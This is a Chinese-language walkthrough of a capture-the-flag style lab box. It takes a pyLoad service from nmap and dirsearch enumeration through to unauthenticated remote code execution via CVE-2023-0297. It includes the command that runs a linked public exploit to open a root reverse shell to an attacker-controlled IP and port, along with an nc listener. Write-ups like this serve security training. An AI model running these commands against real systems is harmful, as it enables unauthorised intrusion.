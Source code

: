 ```yaml
---
description: Easy - Linux / pyLoad 0.5 / RCE / CVE-2023-0297
---
```


# ✔️ pyLoader

## 建立立足点

### 信息收集&#x20;

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和9666

```bash
nmap -sC -sV -p- -oA pyloader 192.168.183.26 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 枚举9666端口上的隐藏文件/目录，依次查看无收获：

```bash
dirsearch -u http://192.168.183.26:9666 -x 404,403,401,302,301,400
```

<figure><img src="../../.gitbook/assets/2 (35).png" alt=""><figcaption></figcaption></figure>

* 检查9666端口发现是一个登录界面，尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (32).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 该页面直接显示了当前正在运行的程序是pyLoad，直接搜索发现唯一一个公开漏洞：CVE-2023-0297 未认证的 PyLoad <0.5.0b3.dev31 远程代码执行

<figure><img src="../../.gitbook/assets/4 (33).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (33).png" alt=""><figcaption></figcaption></figure>

* Exploit： https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py

<figure><img src="../../.gitbook/assets/6 (33).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该脚本即可获取到拥有root权限的反弹shell：

```bash
python3 exploit.py -t http://192.168.183.26:9666 -I 192.168.45.179 -P 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/7 (33).png" alt=""><figcaption></figcaption></figure>
